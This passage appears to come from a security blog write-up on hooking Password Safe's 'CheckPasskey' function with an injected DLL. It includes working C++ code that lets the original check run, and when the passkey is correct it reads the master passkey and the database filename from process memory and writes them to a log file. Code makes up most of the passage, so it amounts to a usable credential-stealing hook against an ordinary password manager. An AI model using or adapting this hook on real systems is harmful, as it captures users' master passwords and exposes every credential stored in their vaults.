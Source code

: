 This fuction takes in the same parameters as the "CheckPasskey" function from Password Safe. The parameters are initially passed to the orignial function so I can receive the return value. If the return value is "0", I know that the passkey entered was correct and I can save the passkey to the output file. I had to create the "convertString" function to properly retrieve the data from memory.

```c++
int HookCheckPassKey(string& filename, string &passkey, string& version)
{
	// check if passkey is correct by running the original function
	CheckPassKey originalCheck = (CheckPassKey)AddressOfOrigFunc;
	int result = originalCheck(filename, passkey, version);

	// if the result is 0 the passkey is correct
	// if it is 5 it is incorrect
	if (result == 0)
	{
		char passkey_original_address[50];
		sprintf_s(passkey_original_address, "[+] Address of passkey: 0x%p\n", (LPVOID&)passkey);
		writeToFile(passkey_original_address);

		convertString("Passkey", passkey, passkey.size());
		convertString("Database", filename, filename.size());
	}

	return result;
}
```

During my testing, I attached [x64dbg](https://x64dbg.com/) debugger to find the passkey in memory. Since the DLL is writing the memory addresses of the original function to the output file, it is easy to find the passkey in the memory dump.

![x32dbg](/img/FunctionHooking2/x32dbg_passkey.png)

The passkey "password123" starts at memory address 0x01499080 where you can see each character is followed by a null byte. The "convertString" function takes three parameters: text that will be saved to the output file, the memory address where the passkey is located, and the length of the passkey.

The function calculates the number of bytes to read based off the length of the passkey and the extra null bytes. Then the function loops through the bytes and outputs the characters to the output file that are not null bytes.

```c++
void convertString(const char name[], string& sValue, int length) {
	int buff_size = length * 2;
	char* c = new char[buff_size];
	SIZE_T dwRead;
	ReadProcessMemory(GetCurrentProcess(), (LPVOID&)sValue, c, buff_size, &dwRead);

	ofstream myfile;
	myfile.open(outFile, std::ios_base::app);
	myfile << "[*] " << name << ": ";
	for (int i = 0; i < buff_size; i++)
	{
		if ((int)c[i] != 0)
		{
			myfile << c[i];
		}
	}
	myfile << "\n";
	myfile.close();

	delete[] c;
}
```
